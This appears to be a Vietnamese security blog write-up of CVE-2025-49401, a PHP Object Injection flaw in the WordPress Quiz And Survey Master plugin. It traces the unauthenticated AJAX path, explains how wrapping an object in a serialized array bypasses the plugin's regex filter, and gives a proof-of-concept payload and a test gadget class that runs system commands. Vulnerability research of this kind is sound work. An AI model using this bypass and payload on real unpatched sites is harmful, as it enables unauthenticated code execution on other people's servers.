

<!--more-->

## CVE & Basic Info
Plugin này thực hiện thao tác **unserialize** dữ liệu mà người dùng gửi qua trường form, điều này có thể cho phép **người dùng chưa xác thực** thực hiện **PHP Object Injection** nếu tồn tại một *gadget* phù hợp trong hệ thống.

* **CVE ID**: [CVE-2025-49401](https://www.cve.org/CVERecord?id=CVE-2025-49401)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 10.2.5
* **Patched Versions**: 10.2.6
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Quiz And Survey Master Plugin](https://wordpress.org/plugins/quiz-master-next/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Quiz And Survey Master**:  
    * `10.2.5` – **vulnerable**  
    * `10.2.6` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Cause
Lỗ hổng xuất phát từ việc sử dụng `maybe_unserialize()`. Dù đã có biện pháp kiểm tra, cơ chế này vẫn chưa đảm bảo an toàn tuyệt đối.  

```php {data-open=true title="template-variables.php" hl_lines=[1]}
if ( preg_match( '/^(O|C):\d+:/', $qmn_sanitize_random_ids ) ) {
    return '';
}
if ( is_serialized( $qmn_sanitize_random_ids ) ) {
    $unserialized = maybe_unserialize( $qmn_sanitize_random_ids );
    if ( ! is_object( $unserialized ) && ! is_resource( $unserialized ) ) {
        return $unserialized;
    }
}
```

Bản vá đã sử dụng `unserialize()` thay vì `maybe_unserialize()`. Chặn toàn bộ việc tạo object khi unserialize bằng `['allowed_classes' => false]` => Ngăn chặn PHP Object Injection



## Analysis
Sau khi xem qua logic của hàm `qsm_questions_answers_shortcode_to_text()`, tôi nhận thấy các từ khóa như `question` và `answer` xuất hiện khá nhiều, cho thấy hàm này nhiều khả năng liên quan trực tiếp đến chức năng xử lý câu hỏi và câu trả lời.  

Thay vì lần theo từng bước trace, tôi sẽ chủ động tìm các chức năng có liên quan đến `question` và `answer` để sử dụng, đồng thời kết hợp debug tại hàm `qsm_questions_answers_shortcode_to_text()`. Nếu cách này không hiệu quả thì ta sẽ tiếp tục trace chi tiết.

Sau một hồi tọc vạch, tôi đã tạo post với question tùy ý 


Truy cập post và **submit answer**


Debugger đã nhảy đến hàm `qsm_questions_answers_shortcode_to_text()`

Request hiện tại:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: en-US,en;q=0.7,vi;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Length: 2373
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/index.php/2025/11/17/quiz-1/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue
Priority: u=0

------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qsm_hidden_questions"


------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qsm_nonce"

b667038586
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qsm_unique_key"

691b485dd00e5
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="question1"

0
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="answer_limit_keys_1"


------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qmn_question_list"

1Q
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qmn_all_questions_count"

1
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="total_questions"

1
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="timer"

3
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="timer_ms"

0
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qmn_quiz_id"

1
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="complete_quiz"

confirmation
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="current_page"

0
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="quiz_start_date"

06:50:55 AM 11/17/2025
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="action"

qmn_process_quiz
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="nonce"

b667038586
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="qsm_unique_key"

691b485dd00e5
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="currentuserTime"

1763395682
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4
Content-Disposition: form-data; name="currentuserTimeZone"

Asia/Bangkok
------geckoformboundary64b770b36de80c7ad71f430a81ec77b4--
```

Hàm `qmn_sanitize_random_ids_data()` sẽ gọi đến `maybe_unserialize()`. Nhưng trước hết phải đáp ứng điều kiện:

```php
if ( ! empty( $_POST['quiz_answer_random_ids'] ) )
```

Ta có thể tận dụng 1 trường trong HTTP request ở trên để thêm thay đổi thành `quiz_answer_random_ids`

```diff
- Content-Disposition: form-data; name="currentuserTimeZone"
- Asia/Bangkok
+ Content-Disposition: form-data; name="quiz_answer_random_ids"
+ payload
```

Chính value của `qmn_sanitize_random_ids` sẽ là giá trị được đặt làm đối số cho hàm `maybe_unserialize()`


```php {data-open=true title="template-variables.php" hl_lines=[3,8]} 
function qmn_sanitize_random_ids_data( $qmn_sanitize_random_ids ) {
	if ( is_string( $qmn_sanitize_random_ids ) ) {
		if ( preg_match( '/^(O|C):\d+:/', $qmn_sanitize_random_ids ) ) {
			return '';
		}

		if ( is_serialized( $qmn_sanitize_random_ids ) ) {
			$unserialized = maybe_unserialize( $qmn_sanitize_random_ids );
			if ( ! is_object( $unserialized ) && ! is_resource( $unserialized ) ) {
				return $unserialized;
			}
		}
	}

	return $qmn_sanitize_random_ids;
}
```

Trước khi `maybe_unserialize` được gọi, ta cần phải vượt qua bộ lọc duy nhất ở đây:

```php
if ( preg_match( '/^(O|C):\d+:/', $qmn_sanitize_random_ids ) ) {
    return '';
}
```

Hàm `preg_match` kiểm tra xem trong chuỗi `$qmn_sanitize_random_ids` có tồn tại chuỗi con bắt đầu bằng `O:` hoặc `C:`. Ví dụ `O:8:"stdClass":...` hoặc `C:...`

Nhưng rất tiếc, lớp phòng thủ này chưa chặt. Chuỗi serialize có thể bắt đầu bằng `a:` tức là array, trong array có thể chức `O:` hoặc `C:` để kích hoạt sự kiện deserialize, gây nguy cơ unserialize object injection.

--- 

Plugin đã đăng ký một ajax dành cho **unauthenticated user** (nopriv)

```php {title="class-qmn-quiz-manager.php"}
add_action( 'wp_ajax_nopriv_qmn_process_quiz', array( $this, 'ajax_submit_results' ) );
```

Khi request đến endpoint `/wp-admin/admin-ajax.php` với `action=qmn_process_quiz` thì callback `ajax_submit_results()` được gọi.

Sau đó `ajax_submit_results()` sẽ gọi đến `submit_results()`, encode JSON và echo giá trị trả về

```php {title="class-qmn-quiz-manager.php"}
echo wp_json_encode( $this->submit_results( $options, $data ) );
```

`submit_results()` gọi đến `display_results_text()`

```php {title="class-qmn-quiz-manager.php"}
$results_pages   = $this->display_results_text( $qmn_quiz_options, $qmn_array_for_variables );
```

`display_results_text()` gọi đến `generate_pages()`

```php {title="class-qsm-results-pages.php"}
return QSM_Results_Pages::generate_pages( $response_data );
```

`generate_pages()` sẽ apply filter đã được đăng ký trước `mlw_qmn_template_variable_results_page`

```php {title="class-qsm-results-pages.php"}
echo apply_filters( 'mlw_qmn_template_variable_results_page', $page, $response_data );
```


Có rất nhiều callback được đăng ký có filter `mlw_qmn_template_variable_results_page`, nhưng ở đây ta chỉ quan tâm đến callback `mlw_qmn_variable_question_answers`, nó sẽ trực tiếp gọi đến hàm `qsm_questions_answers_shortcode_to_text()` ta đã phân tích ở trên.

## Flow


graph TD
A["POST /wp-admin/admin-ajax.php"] -- action=qmn_process_quiz&other_post_data --> B["wp_ajax_nopriv_qmn_process_quiz"]
B --> C["ajax_submit_results()"]
C --> D["submit_results()"]
D --> E["display_results_text()"]
E --> F["generate_pages()"]
F -- apply filter mlw_qmn_template_variable_results_page --> G["mlw_qmn_variable_question_answers()"]
G --> H["qsm_questions_answers_shortcode_to_text()"]
H --> K{" ! empty( $_POST['quiz_answer_random_ids'] )"}
K -- true --> L["qmn_sanitize_random_ids_data()"] --> M{"preg_match( '/^(O|C):\d+:/', $qmn_sanitize_random_ids )"}
M -- true --> N["return ''"]
M -- false --> V["maybe_unserialize"] --> W["RCE"]


## Proof of Concept (PoC)
1. Sử dụng plugin để tạo post chứ quiz bằng việc sử dụng QSM block
2. Submit form và cho request đi qua Burp proxy 
3. Sửa lại `value` của `quiz_answer_random_ids` chứa chuổi serialized
```
a:1:{i:0;O:15:"ObjectInjection":1:{s:7:"command";s:4:"ls /";}}
```

4. Gửi lại request

> [!TIP]
> Để test trên local, ta tạo class chứa magic method `__wakeup()` sẽ tự kích hoạt khi deserialized đặt nó trong `wp-config.php`
> ```php
> class ObjectInjection
> {
>   public $command;
>   function __destruct(){
>		die(system($this->command));
>   }
> }
> ```

# Conclusion
Lỗ hổng **CVE-2025-49401** xuất phát từ việc xử lý dữ liệu đầu vào thiếu an toàn với `maybe_unserialize()`, cho phép kẻ tấn công chưa xác thực cung cấp payload serialized để thực thi PHP Object Injection. Cơ chế lọc yếu dựa trên `preg_match` chỉ chặn payload bắt đầu bằng `O:` hoặc `C:`, nhưng hoàn toàn thất bại trước serialized array chứa object. Kết hợp với endpoint AJAX mở (`wp_ajax_nopriv_qmn_process_quiz`), luồng thực thi dẫn payload đi qua nhiều lớp xử lý trước khi bị unserialize, cuối cùng gây ra thực thi mã tùy ý (RCE) nếu tồn tại gadget phù hợp. Bản vá sử dụng `unserialize(..., ['allowed_classes' => false])` đã loại bỏ hoàn toàn khả năng tạo object, từ đó xử lý triệt để lỗ hổng.

# Key Takeaways
- **maybe_unserialize() luôn nguy hiểm** khi xử lý dữ liệu đến từ người dùng, đặc biệt trong môi trường WordPress.
- **Regex thủ công không đủ an toàn** để ngăn khai thác deserialization — attacker có thể đóng gói payload trong array để bypass.
- **AJAX endpoint dành cho unauthenticated user** là bề mặt tấn công cực kỳ nhạy cảm và cần được kiểm tra nghiêm ngặt.
- **allowed_classes = false** là biện pháp phòng thủ hiệu quả nhất khi không cần unserialize object.
- Tính năng plugin càng phức tạp, **nguy cơ xuất hiện gadget chain dẫn đến RCE càng cao**.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Quiz And Survey Master Plugin <= 10.2.5 is vulnerable to a high priority PHP Object Injection](https://patchstack.com/database/wordpress/plugin/quiz-master-next/vulnerability/wordpress-quiz-and-survey-master-plugin-10-2-5-php-object-injection-vulnerability)    